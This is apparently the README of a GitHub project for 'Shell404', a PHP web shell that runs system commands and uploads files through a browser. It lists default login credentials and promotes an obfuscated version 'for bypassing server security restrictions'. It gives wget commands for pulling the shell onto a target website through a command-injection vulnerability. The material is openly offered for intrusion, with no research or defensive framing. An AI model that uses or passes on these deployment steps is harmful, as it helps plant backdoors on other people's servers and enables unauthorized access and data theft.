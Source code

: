 # Shell404 🛠️

**Shell404** is a simple yet powerful PHP web shell created by [Anon-404](https://github.com/Anon-404). It provides a minimalistic interface for executing system commands and managing file uploads securely, all through your web browser.

## ✨ Features

- ⚙️ **Command Execution**: Run system commands directly from the web interface and view the output.
- 📁 **File Upload**: Safely upload files to the server with a straightforward interface.
- 🔐 **Login Authentication**: Restrict access to authorized users with a username and password system.
- 🛡️ **Obfuscated Version**: Use the obfuscated shell (`obf-Shell404.php`) for bypassing server security restrictions.

## 🔑 Default Login Credentials 

```php
$user = "Shell404";
$pass = "Shell404";
```

## 🚀 Installation

1. 📥 Clone the repository or download either the original `shell404.php` or the obfuscated `obf-Shell404.php` file.
2. 🚀 Upload the chosen file to your server's web directory.
3. 🌐 Access the web shell via your browser by navigating to the file.

## 🛡️ Usage

1. 🌐 Open the web shell in your browser.
2. 🔑 Login using the default credentials:
   - `Username : Shell404`
   - `Password : Shell404`
3. After logging in, you can:
   - ⚙️ **Command Input**: Enter system commands and view the results in real-time.
   - 📁 **File Upload**: Use the file upload feature to transfer files to the server.

## 💻 Direct Download via Command Injection

If the target website has a **command injection vulnerability**, you can easily download the Shell404 web shell using the following command:

```bash
wget https://raw.githubusercontent.com/Anon-404/Shell404/main/Shell404.php
```
### If have server security restriction

```bash
wget https://raw.githubusercontent.com/Anon-404/Shell404/main/obf-Shell404.php
```

This will fetch the obfuscated `obf-Shell404.php` file from the GitHub repository to the target server, allowing you to access the shell through the browser.

## 🛠️ Customization

You can personalize the default username and password by editing the variables at the top of the `shell404.php` or `obf-Shell404.php` file:

```php
$user = "Shell404";
$pass = "Shell404";
```
